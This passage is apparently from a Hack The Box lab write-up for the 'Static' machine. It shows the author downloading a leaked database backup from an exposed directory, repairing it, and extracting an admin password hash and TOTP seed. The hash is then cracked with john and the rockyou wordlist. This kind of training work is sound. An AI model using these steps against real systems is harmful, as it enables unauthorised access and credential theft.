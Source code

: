 Let's check **db.sql.gz** file.

```console
elpollon@elpollon:~/HTB/Static/content$ wget http://10.10.10.246:8080/.ftp_uploads/db.sql.gz

--2021-11-30 08:54:52--  http://10.10.10.246:8080/.ftp_uploads/db.sql.gz
Connecting to 10.10.10.246:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 262 [application/x-gzip]
Saving to: ‘db.sql.gz’

db.sql.gz           100%[===================>]     262  --.-KB/s    in 0s      

2021-11-30 08:54:53 (8,17 MB/s) - ‘db.sql.gz’ saved [262/262]

elpollon@elpollon:~/HTB/Static/content$ gzip -d db.sql.gz

gzip: db.sql.gz: invalid compressed data--crc error

gzip: db.sql.gz: invalid compressed data--length error

```

I had an error while decompressing the **db.sql.gz** file, probably the warning file makes reference to this. Doing some research I found that the corruption of **db.sql.gz** may be because the file was upload over non ftp binary connection. The file can be decorrupted using **dos2unix** tool.

```console
elpollon@elpollon:~/HTB/Static/content$ dos2unix -f db.sql.gz

dos2unix: converting file db.sql.gz to Unix format...

elpollon@elpollon:~/HTB/Static/content$ gz -d db.sql.gz
elpollon@elpollon:~/HTB/Static/content$
```

No errors now, let's check what's going on in **db.sql** file.

```console
elpollon@elpollon:~/HTB/Static/content$ cat db.sql

CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsigned not null auto_increment, username varchar(20) not null, password varchar(40) not null, totp varchar(16) not null, primary key (id) ); 
INSERT INTO users ( id, username, password, totp ) VALUES ( null, 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997', 'orxxi4c7orxwwzlo' );
```

Ok, a database snapshot. We see a user and password (probably hashed). Let's try to crack the password using john.

```console
elpollon@elpollon:~/HTB/Static/content$ echo 'd033e22ae348aeb5660fc2140aec35850c4da997' > hash

elpollon@elpollon:~/HTB/Static/content$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 

Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)
```